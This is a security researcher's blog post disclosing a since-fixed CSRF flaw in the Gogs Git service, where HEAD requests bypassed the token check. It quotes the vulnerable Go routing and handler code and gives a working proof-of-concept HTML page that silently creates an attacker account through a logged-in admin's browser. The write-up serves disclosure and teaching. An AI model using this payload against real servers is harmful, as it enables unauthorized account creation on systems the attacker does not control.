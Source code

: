 ```yaml
---
date: 2014-06-30 04:15:48 GMT
slug: csrf-in-gogs-via-head
tags: Go,csrf
title: CSRF in Gogs via HEAD
author: Tom Steele
type: text
---
```


I'm a big fan of [Go](http://golang.org/), so I'm always on the look out for emerging projects within the community. One such project is [Gogs](http://gogs.io/), an open source self-hosted Git service. This is a pretty ambitious effort, and  definitely a project to watch. While looking over some of the code I identified a [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) ("CSRF") vulnerability that presented itself in a not so common manner.

CSRF is a technique that exploits a server's inherit trust in the user's browser. In practice, an attacker will host a malicious site and submit requests on behalf of the user. There are [many techniques](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript) to do this, far too many to discuss here, but the results can be [devastating](http://disconnected.io/2014/03/18/how-i-hacked-your-router/).

Preventing CSRF is fairly straight forward, one common way is to use a double-submit token. Where a random value is stored in the user's session or a separate cookie, and when a request to change a resource is submitted, it is compared to a form value or header. This is the method used by Gogs. Code for token generation and extraction is [here](https://github.com/gogits/gogs/blob/99713e1180ad149faf6442bba311fec6e501aa00/modules/middleware/context.go#L245-L270). And we can see [here](https://github.com/gogits/gogs/blob/e323604d781268a39febced13a2fb6caae2d126c/modules/middleware/auth.go#L37-L40) that all POST requests must have a valid token, or a 403 is returned.

This is valid because applications should not change state via the GET method, and other methods, including DELETE, PUT, PATCH, etc. will be "preflighted" using the OPTIONS method to determine if the request if safe to send. A great resource for the wonder that is CORS rules is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS). As an aside, beware of only protecting POST routes, because [sometimes](http://blog.nodesecurity.io/post/60555138201/bypass-connect-csrf-protection-by-abusing) it's not enough. OK, now that were all experts, on with the vulnerability.

Gogs uses [Martini](https://github.com/go-martini/martini), which supports Sinatra like routing. We can see routes for managing users below.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/45462662e9bdb001f1cf3d4ca0e4d679757c7642/web.go

m.Group("/admin/users", func(r martini.Router) {
    r.Any("/new", bindIgnErr(auth.RegisterForm{}), admin.NewUser)
    r.Any("/:userid", bindIgnErr(auth.AdminEditUserForm{}), admin.EditUser)
    r.Any("/:userid/delete", admin.DeleteUser)
}, adminReq)
~~~~~

We see that `r` is the router variable and is using the `Any` method to setup routing. `Any` works how you probably expect, it accepts any method. Let's focus on the `"/new"` route, which is used to create a new user.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/d0e6a4c25acc3414f6d0f93cc50e6dcb41111c19/routers/admin/user.go

func NewUser(ctx *middleware.Context, form auth.RegisterForm) {
    ctx.Data["Title"] = "New Account"
    ctx.Data["PageIsUsers"] = true

    if ctx.Req.Method == "GET" {
        ctx.HTML(200, "admin/users/new")
        return
    }

    if form.Password != form.RetypePasswd {
        ctx.Data["HasError"] = true
        ctx.Data["Err_Password"] = true
        ctx.Data["Err_RetypePasswd"] = true
        ctx.Data["ErrorMsg"] = "Password and re-type password are not same"
        auth.AssignForm(form, ctx.Data)
    }

    if ctx.HasError() {
        ctx.HTML(200, "admin/users/new")
        return
    }

    u := &models.User{
        Name:     form.UserName,
        Email:    form.Email,
        Passwd:   form.Password,
        IsActive: true,
    }

    var err error
    if u, err = models.RegisterUser(u); err != nil {
        switch err {
        case models.ErrUserAlreadyExist:
            ctx.RenderWithErr("Username has been already taken", "admin/users/new", &form)
        case models.ErrEmailAlreadyUsed:
            ctx.RenderWithErr("E-mail address has been already used", "admin/users/new", &form)
        case models.ErrUserNameIllegal:
            ctx.RenderWithErr(models.ErrRepoNameIllegal.Error(), "admin/users/new", &form)
        default:
            ctx.Handle(200, "admin.user.NewUser", err)
        }
        return
    }

    log.Trace("%s User created by admin(%s): %s", ctx.Req.RequestURI,
        ctx.User.LowerName, strings.ToLower(form.UserName))

    ctx.Redirect("/admin/users")
}
~~~~~

We see that if the method is GET, then it returns and renders the template containing a form to create a new user, and if not, it creates the user. We saw earlier that POST's are protected, and other methods will be preflighted, but if you're following closely, and familiar with your CORS rules, you'll note that we didn't mention the HEAD method, which is not preflighted and does not require a token. Combine that with the behavior of the form parsing library, which treats query strings the same a payload and you have yourself CSRF.

An attacker can host the following to create a new user.

~~~~~html
<html>
    <head>
    <script>
      var http = new XMLHttpRequest();
      http.open('HEAD', 'http://your.git.computer/admin/users/new?username=badguy&email=badguy@evil.com&passwd=foobar&retypepasswd=foobar');
      http.withCredentials = true;
      http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      http.send();
    </script>
    </head>
    <body>
Hi
    </body>
</html>
~~~~~

The Gogs' development team was extremely responsive and fixed this within a day. To do this, they setup explicit routes and handlers for GET and POST methods, and removed all use of `ANY`. Not being explicit in what you're allowing from a user is the root of many vulnerabilities, and that is the lesson here, where possible only support what you're expecting and strictly validate all input.

